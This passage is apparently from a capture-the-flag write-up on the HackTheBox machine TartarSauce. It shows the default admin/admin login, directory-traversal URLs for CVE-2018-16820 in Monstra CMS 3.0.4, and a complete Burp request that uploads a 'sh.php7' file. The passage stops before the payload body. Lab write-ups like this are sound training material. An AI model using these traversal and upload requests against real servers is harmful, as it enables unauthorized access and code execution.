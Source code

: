Checking for default credentials logs reveals username _admin_ with password _admin_.
![](https://github.com/nikip72/HTB/raw/main/TartarSauce/screenshot4.png)

Searching for Monstra-3.0.4 vulnerabilities we find quite a lot, a nice list can be found here
> https://stack.watch/product/monstra/

Unfortunaltey all code execution vulnerabilities listed fail (probably, later confirmed) due to directory permissions on the web server, se we are unable to gain code execution via CVE-2020-23219 (edit snipplet), CVE-2021-36548 (edit template), CVE-2020-13978 (edit chunk), CVE-2020-13384 (php7 file upload), or CVE-2018-17418 (mixed case extention).

What works is _CVE-2018-16820_, directory traversal vulnerability that allows arbitrary directory listing. Using that vulneability we are able to confirm contents of _/webservices/_ directory on the server by visiting 
> http://tartarsauce.htb//webservices/monstra-3.0.4/admin/index.php?id=filesmanager&path=uploads/.......//./.......//./.......//./.......//./webservices/././

and _/var/www/html/_ contents
> http://tartarsauce.htb//webservices/monstra-3.0.4/admin/index.php?id=filesmanager&path=uploads/.......//./.......//./.......//./.......//./

Combining _CVE-2020-13384_ and _CVE-2018-16820_ it is possible to upload a file under _/var/www/html/_ directory via the following _BURP_ request
```
POST /webservices/monstra-3.0.4/admin/index.php?id=filesmanager&path=uploads/.......//./.......//./.......//./.......//./ HTTP/1.1
Host: tartarsauce.htb
Content-Length: 544
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://tartarsauce.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryceAmGXkJIT2kquTo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://tartarsauce.htb/webservices/monstra-3.0.4/admin/index.php?id=filesmanager&path=uploads/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=pua2pqnush4t5gcfurnajo3fn5; _ga=GA1.2.1634785825.1637343160; _gid=GA1.2.1520495184.1637343160
Connection: close

------WebKitFormBoundaryceAmGXkJIT2kquTo
Content-Disposition: form-data; name="csrf"

98ad3ec8ed4cf9f3c421d5b1190dcb3c470c4030
------WebKitFormBoundaryceAmGXkJIT2kquTo
Content-Disposition: form-data; name="file"; filename="sh.php7"
Content-Type: application/octet-stream

```